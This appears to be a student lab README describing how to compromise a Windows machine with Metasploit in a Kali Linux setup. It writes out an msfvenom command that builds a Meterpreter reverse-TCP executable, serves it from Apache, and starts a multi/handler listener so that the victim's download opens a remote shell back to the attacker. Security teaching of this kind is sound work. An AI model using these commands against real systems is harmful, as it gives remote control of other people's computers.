

# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

### Find the attackers ip address using ifconfig

### Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

### copy the fun.exe into the apache /var/www/html folder

### Start apache server sudo systemctl apache2 start

### Check the status of apache2

### Invoke msfconsole:

## OUTPUT:

### Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

### On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
